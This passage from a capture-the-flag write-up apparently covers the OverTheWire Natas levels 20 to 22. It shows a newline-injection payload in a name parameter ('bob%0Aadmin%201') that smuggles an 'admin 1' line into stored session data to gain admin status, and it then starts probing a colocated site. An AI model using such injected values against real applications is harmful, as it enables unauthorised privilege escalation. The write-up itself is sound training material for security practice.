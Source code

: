 We need to get `admin 1` in there in order to advance, and we have direct control over what goes in this file... What if we included a newline character in our "name", and then `admin 1` after that? Something like: `bob\nadmin 1`

In theory, it should look something like this, when we're done:

~~~~
name bob
admin 1
~~~~

Which *should* give us the credentials for the next level, according to the program.

`http://natas20.natas.labs.overthewire.org/?name=bob%0Aadmin%201`

Returns:

___
You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: [censored]</pre>
<form action="index.php" method="POST">
Your name: <input name="name" value="bob
admin 1"><br>
<input type="submit" value="Change name">
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>

___

Success!

Another mental note: NEVER give users direct access to what's being stored!


## Natas 21 🡆 Natas 22


___
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>


___

Colocated, huh? Hosting different websites on the same server provides some interesting routes of attack. Let's go check out `http://natas21-experimenter.natas.labs.overthewire.org`

___
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
